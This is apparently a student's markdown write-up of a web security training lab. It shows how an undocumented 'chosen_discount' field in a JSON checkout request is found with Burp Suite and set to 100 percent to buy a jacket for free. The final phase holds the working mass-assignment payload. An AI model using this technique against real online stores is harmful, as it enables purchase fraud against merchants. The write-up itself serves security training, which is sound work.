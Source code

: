 # 🧪 Lab: Finding and Exploiting an Unused API Endpoint

## 📋 Lab Description

**Goal:**  
Exploit a hidden API endpoint to purchase a **Lightweight l33t Leather Jacket** using the credentials `wiener:peter`.

**Level:** Practitioner  
**Status:** ✅ *Completed*

---

## 🔍 Phase 1: Reconnaissance

- Logged in using the provided credentials: `wiener:peter`
- Explored the application to identify visible functionality
- Captured and reviewed HTTP requests using Burp Suite
- Identified existing endpoints, such as:
  - `/api/products`
  - `/api/user/cart`
- Noticed the API request GET `/api/checkout` used for the checkout contain a JSON object
  -```
  {
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "name":"Lightweight \"l33t\" Leather Jacket","quantity":1,
                "item_price":133700
            }
        ]
    }
  ```

---

## 🧪 Phase 2: Testing & Errors

- Tried changing the API request: I sent POST `/api/checkout` adding `chosen_discount` as a parameter in the json object--> No error retrived 
```
{
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
→
```
{
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
- Tried to change the value of the `percentage` in a char --> got the error invalid value

---

## 🎯 Phase 3: Exploitation

- I sent a POST `/api/checkout` with the payload to get a 100% discount for the article: 

```
{
        "chosen_discount":{
            "percentage":100
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
